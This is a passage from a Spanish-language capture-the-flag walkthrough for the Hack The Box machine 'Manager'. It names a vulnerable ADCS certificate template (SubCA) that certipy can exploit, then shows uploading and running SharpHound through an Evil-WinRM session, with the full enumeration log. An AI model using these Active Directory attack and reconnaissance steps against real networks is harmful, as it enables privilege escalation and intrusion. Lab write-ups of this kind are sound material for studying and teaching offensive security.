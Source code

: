 ```batch
Date of Creation:                       07/27/2023 10:31:05
EnrollmentFlag:                         0
[!] CertificateNameFlag:                ENROLLEE_SUPPLIES_SUBJECT
```
Analiza bien el resultado.

Nos muestra que hay una plantilla de un certificado que es vulnerable. La plantilla se llama **SubCA** y nos menciona que podemos usar la herramienta **certify o certipy**, para explotar esta vulnerabilidad.

En mi caso, voy a usar **certipy**.

<h2 id="BloodH">Enumeración de AD con BloodHound y SharpHound</h2>

Aunque ya tenemos una vulnerabilidad que podemos explotar, vamos a probar qué podemos obtener con **BloodHound y SharpHound**.

Carga **SharpHound** a la sesión actual:
```batch
*Evil-WinRM* PS C:\Users\Raven\Documents\BH> upload SharpHound.exe
                                        
Info: Uploading ../content/SharpHound.exe to C:\Users\Raven\Documents\BH\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!
```

Ejecútalo:
```batch
*Evil-WinRM* PS C:\Users\Raven\Documents\BH> .\SharpHound.exe -c All
2024-10-13T23:15:42.4798539-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-10-13T23:15:42.6673525-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-13T23:15:42.6829758-07:00|INFORMATION|Initializing SharpHound at 11:15 PM on 10/13/2024
2024-10-13T23:15:42.8079815-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for manager.htb : dc01.manager.htb
2024-10-13T23:15:42.9486381-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-13T23:15:43.1829946-07:00|INFORMATION|Beginning LDAP search for manager.htb
2024-10-13T23:15:43.2454912-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-10-13T23:15:43.2454912-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-10-13T23:16:13.2455359-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-10-13T23:16:28.1517261-07:00|INFORMATION|Consumers finished, closing output channel
2024-10-13T23:16:28.1829789-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-10-13T23:16:28.4017281-07:00|INFORMATION|Status: 98 objects finished (+98 2.177778)/s -- Using 42 MB RAM
2024-10-13T23:16:28.4017281-07:00|INFORMATION|Enumeration finished in 00:00:45.2255542
2024-10-13T23:16:28.4798646-07:00|INFORMATION|Saving cache with stats: 57 ID to type mappings.
 57 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-10-13T23:16:28.4954797-07:00|INFORMATION|SharpHound Enumeration Completed at 11:16 PM on 10/13/2024! Happy Graphing!
```
